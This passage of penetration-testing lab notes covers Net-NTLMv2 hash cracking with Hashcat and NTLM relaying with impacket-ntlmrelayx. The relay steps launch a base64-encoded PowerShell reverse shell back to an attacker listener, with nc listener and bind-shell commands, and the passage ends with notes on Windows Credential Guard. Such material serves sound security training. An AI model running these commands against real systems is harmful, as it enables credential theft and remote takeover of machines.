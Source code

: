 9. Crack the hash using Hashcat:
   `hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force`
10. Confirm that the password is valid by connecting to the target machine with RDP

## Relaying Net-NTLMv2

Similar to above section, but instead of cracking the obtained hash (e.g. it is too complex), we relay the hash to another machine.

Usage example scenario: User *files02admin* is an unprivileged user in FILES01 machine. We have access to FILES01 as *files02admin*, but we cannot run Mimikatz (because unprivileged). We obtained the hash using the steps in the above section but cannot crack it. We can relay the hash to FILES02 where the user is a local Administrator. (The user is likely using the same password on both machines.) Then we can use the methods in the first two sections.

Prerequisite:
- Using local Administrator for the relay attack, or
- Target system has UAC remote restrictions disabled
- SMB signing disabled

Steps:
1. Use ntlmrelayx from impacket to perform the attack and run a command on the remote target to start a reverse shell:
   `sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."`
	- `--no-http-server`: disable HTTP server since we are using SMB connection
	- `-smb2support`: enable support for SMB
	- `-t [target ip]`: specify target ip
	- `-c [command]`: specify command to be executed on target
		- In this case, we are using a [PowerShell reverse shell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) (b64 encoded, note to specify our Kali listener's ip and port in the payload)
2. Start listener to catch incoming reverse shell:
   `nc -nlvp 8080`
3. In another terminal, connect to the bind shell on FILES01:
   `nc 192.168.50.211 5555`
4. Create SMB connection to Kali:
   `dir \\192.168.119.2\test` (filename is arbitrary)
5. Wait for incoming connection in our ntlmrelayx tab
6. Use reverse shell on ncat listener

## Windows Credential Guard
If this is enabled, then you can't steal cached **domain** hashes and credentials from lsass.exe memory. (note: local user hashes not affected)

Information:
- uses hardware virtualization to isolate memory of lsass.exe
- enabled by default on modern Windows installations
- two Virtual Trust Levels (VTL):
	- _VTL0_ (VSM Normal Mode): Contains the Windows environment that hosts regular user-mode processes as well as a normal kernel (_nt_) and kernel-mode data.
	- _VTL1_ (VSM Secure Mode): Contains an isolated Windows environment used for critical functionalities.
- the _Local Security Authority (LSASS)_ environment runs as a trustlet in VTL1 named _LSAISO.exe (LSA Isolated)_ and communicates with the **LSASS.exe** process running in VTL0 through an RCP channel
